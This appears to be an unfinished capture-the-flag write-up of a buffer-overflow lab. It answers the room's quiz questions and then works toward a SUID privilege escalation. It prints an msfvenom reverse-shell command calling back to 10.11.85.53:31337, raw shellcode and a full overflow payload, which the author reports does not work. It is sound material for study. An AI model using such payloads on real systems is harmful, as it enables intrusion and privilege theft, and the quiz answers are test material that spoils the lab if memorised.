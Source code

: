 # Buffer Overflows

### Process Layout
- Where is dynamically allocated memory stored? `heap`
- Where is information about functions(e.g. local arguments) stored? `stack`

### x86-64 Procedures
- what direction does the stack grown(l for lower/h for higher) `l`
- what instruction is used to add data onto the stack? `push`

### Procedures Continued
- What register stores the return address? `rax`

### Overwriting Variables
- What is the minimum number of characters needed to overwrite the variable? `15`

### Buffer Overflows
- Use the above method to open a shell and read the contents of the secret.txt file.<br />
![image](https://github.com/user-attachments/assets/f290f5dd-49d6-46c6-87a9-5b59987db17f)<br />
As we can see `secret.txt` can only be red by user2. However the vulnerable binary, that's owned by user2, can be run by user1 too. Furthermore this binary has the SUID bit set, so it will always run with the privileges of the owner. So the idea is to inject shellcode into the buffer, so that we can spawn a shell as user2, and therefore read the secret.<br />
Step 1: finding the offset.<br />
Let's create a string pattern that will help finding the offset, using a metasploit feature: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`:<br />
![image](https://github.com/user-attachments/assets/85df0227-2bfd-4457-ae84-482c80477ac6)<br />
Now on the target machine open gdb with `gdb -q buffer-overflow`, and type `run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")`:<br />
Now If I run `info registers`:<br />
![image](https://github.com/user-attachments/assets/87d470e2-531a-4edf-a6be-ba85bb477461)<br />
I can see that it has actually been overwritten by the metasploit pattern. `0x6641396541386541` corresponds to `fA9eA8eA`.  Now we can use another metasploit tool to determine the offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6641396541386541`.<br />
![image](https://github.com/user-attachments/assets/d41dc8e0-c2f4-46e8-92fc-e7fc8e28e630)<br />
Now we know that to overwrite the Base Pointer we need 144 bytes. Therefore to overwrite the return address (which is right next to it), we're going to need 144+8 = 152 bytes!<br />
After some tests, I realized that the return address gets overwritten by only 6 bytes instead of 8. I honestly don't know why and couldn't find any explanation online, but I'll just go with it.<br />
Now it's time to create the shell code to spawn a reverse shell. I'll use a msfvenom utility: `msfvenom -p linux/x86/shell_reverse_tcp lhost=10.11.85.53 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode`<br />
![image](https://github.com/user-attachments/assets/7a7a60c6-6c0a-4869-a03a-bf5d6a2423ca)<br />
So we know that this payload is 95 bytes long. Now the next step is to make it a unique string, using a text editor like nano, like so: <br /> 
![image](https://github.com/user-attachments/assets/b5321c59-335a-4266-a9eb-4511de301f0a)<br />
So now the parameters I'm going to use are:

      30 bytes of "A"s
      27 bytes of NOPs
      95 bytes of payload
      6 bytes of return address

The next thing I need to do is to find any address containing a NOP, so that I can use it to overwrite the return address. So on gdb i run: `run $(python -c "print('\x41'*30+'\x90'*27+'\xdb\xda\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbd\xb3\x76\xf6\xa6\x83\xea\xfc\x31\x6a\x13\x03\xd9\x65\x14\x53\x2c\x51\x2f\x7f\x1d\x26\x83\xea\xa3\x21\xc2\x5b\xc5\xfc\x85\x0f\x50\x4f\xba\xe2\xe2\xe6\xbc\x05\x8a\xf2\x35\xa3\x7f\x6b\x48\x4b\x05\x02\xc5\xaa\x49\xb2\x85\x7d\xfa\x88\x25\xf7\x1d\x23\xa9\x55\xb5\xd2\x85\x2a\x2d\x43\xf5\xe3\xcf\xfa\x80\x1f\x5d\xae\x1b\x3e\xd1\x5b\xd1\x41'+'\x42'*6)")`<br />
Notice that the last 6 bytes of the payload are `\x42`. In fact this is the result of the execution in gdb: <br />
![image](https://github.com/user-attachments/assets/9d64f761-4a8c-44c6-8e6e-55201bd7227d)<br />
The buffer gets overwritten, good. Now I type `x/100x $rsp-200`. This lets me see 100 bytes from the memory location esp-200. It should contain the overwritten buffer, and this is the output: <br />
![image](https://github.com/user-attachments/assets/abe77444-40d8-4211-b72c-d9e4145141bd)<br />
As we can see there are all the "A"s and also the NOPs. We want to overwrite the return address with one of the NOPs. `0x7fffffffe278` seems a good candidate to me. Remember that this architecture uses little endian: <br />
![image](https://github.com/user-attachments/assets/0df5e25e-f961-4e5a-af1e-422d6cc7829a)<br />
So we will overwrite the return address with the following 6 bytes: `\x78\xe2\xff\xff\xff\x7f`. So the final  payload will look something like this: <br /><br />
`run $(python -c "print('\x41'*30+'\x90'*27+'\xdb\xda\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbd\xb3\x76\xf6\xa6\x83\xea\xfc\x31\x6a\x13\x03\xd9\x65\x14\x53\x2c\x51\x2f\x7f\x1d\x26\x83\xea\xa3\x21\xc2\x5b\xc5\xfc\x85\x0f\x50\x4f\xba\xe2\xe2\xe6\xbc\x05\x8a\xf2\x35\xa3\x7f\x6b\x48\x4b\x05\x02\xc5\xaa\x49\xb2\x85\x7d\xfa\x88\x25\xf7\x1d\x23\xa9\x55\xb5\xd2\x85\x2a\x2d\x43\xf5\xe3\xcf\xfa\x80\x1f\x5d\xae\x1b\x3e\xd1\x5b\xd1\x41'+'\x78\xe2\xff\xff\xff\x7f')")`<br />
DOESNT WORK. 😠<BR />
TO BE CONTINUED. <BR />



### 
